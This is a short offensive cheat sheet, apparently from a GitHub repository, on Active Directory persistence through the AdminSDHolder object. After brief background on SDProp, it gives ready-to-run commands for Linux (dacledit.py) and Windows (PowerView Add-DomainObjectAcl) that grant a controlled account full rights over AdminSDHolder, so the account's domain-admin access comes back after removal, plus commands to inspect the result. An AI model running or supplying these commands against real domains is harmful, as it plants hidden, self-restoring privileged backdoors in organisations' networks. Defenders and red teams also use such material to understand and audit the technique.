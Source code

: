 # AdminSDHolder

## Permissions: Domain Admin

### The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

### If you modify the permissions of AdminSDHolder, that permission template will be pushed out to all protected accounts automatically by SDProp (in an hour). E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

### Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL. 

## Linux

    dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'

### Inspection

    dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'

## Windows

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All

Then wait for SDProp process to run. It may take up to 60 minutes. After waiting, run the command below to inspect if the user has been added as a domain admin

### Inspection

    Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

    Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'Moe'}

